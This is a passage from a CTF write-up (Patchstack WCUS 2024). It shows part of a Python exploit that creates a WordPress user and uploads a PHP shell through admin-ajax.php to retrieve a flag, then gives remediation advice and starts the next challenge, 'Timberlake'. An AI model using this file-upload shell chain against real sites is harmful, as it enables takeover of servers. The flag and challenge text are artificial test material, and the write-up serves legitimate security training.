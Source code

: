 ```python
		'product_id': 1
		}

		req = self.session.post(urljoin(self.url, '/wp-admin/admin-ajax.php'), data=data, files=files)

		print(req.text)

		readFlag = self.session.get(urljoin(self.url, '/wp-content/uploads/woo-gallery/b4nua.php'))

		return readFlag.text

if __name__ == '__main__':
	username = 'b4nua_admin'
	password = username

	run = Exploit(username, password)
	print(run.enableRegistration())
	print(run.createUser())
	print(run.loginUser())
	print(run.uploadShell())
```

Run the exploit, and the FLAG is obtained.
![Flag](/assets/img/Patchstack-WCUS-CTF-2024/MyShopDisaster_Flag.png)

**Flag:** CTF{891241df84ff_ADMIN_PERMIT_ANYWAYS_0z195}

**Remediation:**

- Use wp_check_filetype_and_ext function. this function attempts to determine the real file type of a file. If unable to, the file name extension will be used to determine the type. If it’s determined that the extension does not match the file’s real type, then the “proper_filename” value will be set with a proper filename and extension.
- For the authorization, check the is_admin() && ! wp_doing_ajax()

# **Timberlake**

**Description:**\
I'm a front end designer that has some old backend experience. Wanted to put some of my skills to make a cool website that can work with templates. Still WIP but it is coming along nicely.
Note: fully whitebox challenge, no need to do massive bruteforce
http://100.25.255.51:9095/
